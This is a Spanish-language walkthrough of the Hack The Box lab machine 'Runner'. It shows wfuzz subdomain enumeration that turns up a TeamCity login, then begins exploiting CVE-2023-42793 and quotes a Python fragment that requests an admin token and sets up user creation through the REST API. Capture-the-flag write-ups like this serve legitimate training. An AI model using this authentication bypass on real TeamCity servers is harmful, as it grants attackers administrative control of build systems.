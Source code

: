 No encontramos nada relevante en esta parte de fuzzear por archivos o templates de la web, asi que vamos a seguir con la enumeracion de subdominios con wfuzz. Es importante tener una buena metodologia a la hora de enumerar aplicaciones web.

### Enumeracion Web Fuzz Domain

```bash
wfuzz -c --hc=404 --hh=154 -t 100 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host: FUZZ.runner.htb' http://runner.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://runner.htb/
Total requests: 100000
=====================================================================
ID           Response   Lines    Word       Chars       Payload     
=====================================================================
000013170:   401        1 L      9 W        66 Ch       "teamcity"
```

Agregare este subdominio al /etc/hosts

```bash
echo '<IP> runner.htb teamcity.runner.htb' >> /etc/hosts 
```

nos redirige a `http://teamcity.runner.htb/login.html`

![](htb-writeup-runner/runner2.png)

### Enumeracion Web Team City

Que es TeamCity?

Está diseñado para mejorar el proceso de desarrollo de software mediante la automatización de tareas rutinarias como la creación, prueba e implementación de código . TeamCity se destaca por su interfaz fácil de usar, su integración integral con sistemas de control de versiones y sus amplias capacidades de creación, prueba e implementación

bien!!! tenemos un panel de login de esta app, tenemos que tratar de bypassear este panel. Una vez dentro imagino que habran usuarios y administradores, la version es la 2023.05.03

Si realizamos una busqueda en searchsploit?

![](htb-writeup-runner/runner3.png)

Tenemos un PoC, pero nosotros vamos a leer el codigo y tratar de explotarlo de forma manual.

### Explotacion [CVE-2023-42793]

```python
if url.startswith("https://"):
    curl_command = "curl -k"
else:
    curl_command = "curl"

get_token_url = f"{url}/app/rest/users/id:1/tokens/RPC2"
delete_token_url = f"{url}/app/rest/users/id:1/tokens/RPC2"
create_user_url = f"{url}/app/rest/users"

create_user_command = ""
token = ""

response = requests.post(get_token_url, verify=False)
```
